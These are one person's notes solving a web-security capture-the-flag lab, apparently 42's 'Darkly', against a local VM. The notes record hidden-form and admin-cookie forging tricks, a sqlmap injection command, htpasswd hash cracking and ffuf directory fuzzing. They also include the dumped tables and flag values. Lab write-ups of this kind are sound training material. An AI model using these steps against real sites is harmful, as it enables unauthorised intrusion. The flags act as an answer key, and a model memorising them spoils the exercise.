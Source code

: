 #+TITLE: Temp

* Login page :

Recover password - webmaster@borntosec.com
~flag - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0~

La balise est cachee, si on supprime le contenu du form et qu'on submit, le flag nous est donne

* Cookies :
Cookies - I_am_admin 68934a3e9455fa72420237eb05902327
hashid 68934a3e9455fa72420237eb05902327
Le hash est en md5 est veut dire false

echo true | md5
74d9a83219cabaab06a69fd318873f335

Remplacons le cookie

* Search image :

vulnerable a l'injection sql
sqlmap --batch --dump -u <curl requete> --level=5 --risk=3 --technique=BEU
echo 1928e8083cf461a51303633093573c46 | sha2
~flag - fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6~

* Search users :
injection sql comme image

echo 5ff9d0165b4f92b14994e5c685cdce28 | sha2
~flag - 3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5~

* Source page :
?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

* Login :
~admin - shadow = b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~
root - shadow =
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

* Fuzzing :

url/whatever - htpasswd http://192.168.56.102/whatever/htpasswdd
root:8621ffdbc5698829397d97767ac13db3 - dragon
go to url/admin
~flag d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff~



Database: Member_Brute_Force
Table: db_default
[2 entries]
+----+-------------------------------------------+----------+
| id | password                                  | username |
+----+-------------------------------------------+----------+
| 1  | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) | root     |
| 2  | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) | admin    |
+----+-------------------------------------------+----------+

Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                                                                                                          | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                                                                                                             | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                                                                                                            | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | \\0418\\043E\\0441\\0438\\0444 \\0412\\0438\\0441\\0441\\0430\\0440\\0438\\043E\\043D\\043E\\0432\\0438\\0447 \\0414\\0436\\0443\\0433\\0430\\0448\\0432\\0438\\043B | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good !                                                                                        | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+


Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+


Database: Member_survey
Table: vote_dbs
[4 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| id_vote | int(11)      |
| nb_vote | int(11)      |
| subject | varchar(255) |
| vote    | float        |
+---------+--------------+


λ ~/gitlab/darkly/ main* ffuf -w ~/tmp/directory-list-2.3-medium.txt -u 'http://192.168.56.102/FUZZ'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.102/FUZZ
 :: Wordlist         : FUZZ: /Users/paure/tmp/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# directory-list-2.3-medium.txt [Status: 200, Size: 6892, Words: 616, Lines: 130]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
images                  [Status: 301, Size: 184, Words: 6, Lines: 8]
# Copyright 2007 James Fisher [Status: 200, Size: 6892, Words: 616, Lines: 130]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
admin                   [Status: 301, Size: 184, Words: 6, Lines: 8]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# on at least 2 different hosts [Status: 200, Size: 6892, Words: 616, Lines: 130]
audio                   [Status: 301, Size: 184, Words: 6, Lines: 8]
css                     [Status: 301, Size: 184, Words: 6, Lines: 8]
includes                [Status: 301, Size: 184, Words: 6, Lines: 8]
js                      [Status: 301, Size: 184, Words: 6, Lines: 8]
# This work is licensed under the Creative Commons [Status: 200, Size: 6892, Words: 616, Lines: 130]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 6892, Words: 616, Lines: 130]
fonts                   [Status: 301, Size: 184, Words: 6, Lines: 8]
errors                  [Status: 301, Size: 184, Words: 6, Lines: 8]
whatever                [Status: 301, Size: 184, Words: 6, Lines: 8]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
:: Progress: [220560/220560] :: Job [1/1] :: 2313 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
